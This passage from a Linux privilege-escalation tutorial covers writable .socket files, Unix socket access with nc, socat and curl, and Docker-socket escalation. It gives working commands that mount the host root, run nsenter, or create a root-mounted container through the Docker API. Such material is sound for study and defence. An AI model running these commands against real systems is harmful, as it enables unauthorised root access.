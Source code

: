 Writable .socket files
If you find a writable .socket file you can add at the beginning of the [Socket] section something like: ExecStartPre=/home/kali/sys/backdoor and the backdoor will be executed before the socket is created. Therefore, you will probably need to wait until the machine is rebooted.
Note that the system must be using that socket file configuration or the backdoor won't be executed

Writable sockets
If you identify any writable socket (now where are talking about Unix Sockets, not about the config .socket files), then, you can communicate with that socket and maybe exploit a vulnerability.

Enumerate Unix Sockets
netstat -a -p --unix
Raw connection
#apt-get install netcat-openbsd
nc -U /tmp/socket  #Connect to UNIX-domain stream socket
nc -uU /tmp/socket #Connect to UNIX-domain datagram socket
​
#apt-get install socat
socat - UNIX-CLIENT:/dev/socket #connect to UNIX-domain socket, irrespective of its type
Exploitation example:

Socket Command Injection
/linux-unix/privilege-escalation/socket-command-injection
HTTP sockets
Note that there may be some sockets listening for HTTP requests (I'm not talking about .socket files but about the files acting as unix sockets). You can check this with:

curl --max-time 2 --unix-socket /pat/to/socket/files http:/index
If the socket respond with a HTTP request, then you can communicate with it and maybe exploit some vulnerability.

Writable Docker Socket
The docker socket is typically located at /var/run/docker.sock and is only writable by root user and docker group.
If for some reason you have write permissions over that socket you can escalate privileges.
The following commands can be used to escalate privileges:

docker -H unix:///var/run/docker.sock run -v /:/host -it ubuntu chroot /host /bin/bash
docker -H unix:///var/run/docker.sock run -it --privileged --pid=host debian nsenter -t 1 -m -u -n -i sh
Use docker web API from socket without docker package
If you have access to docker socket but you can't use the docker binary (maybe it isn't even installed), you can use directly the web API with curl.

The following commands are a example to create a docker container that mount the root of the host system and use socat to execute commands into the new docker.

# List docker images
curl -XGET --unix-socket /var/run/docker.sock http://localhost/images/json
##[{"Containers":-1,"Created":1588544489,"Id":"sha256:<ImageID>",...}]
# Send JSON to docker API to create the container
curl -XPOST -H "Content-Type: application/json" --unix-socket /var/run/docker.sock -d '{"Image":"<ImageID>","Cmd":["/bin/sh"],"DetachKeys":"Ctrl-p,Ctrl-q","OpenStdin":true,"Mounts":[{"Type":"bind","Source":"/","Target":"/host_root"}]}' http://localhost/containers/create
##{"Id":"<NewContainerID>","Warnings":[]}
curl -XPOST --unix-socket /var/run/docker.sock http://localhost/containers/<NewContainerID>/start
The last step is to use socat to initiate a connection to the container, sending an attach request
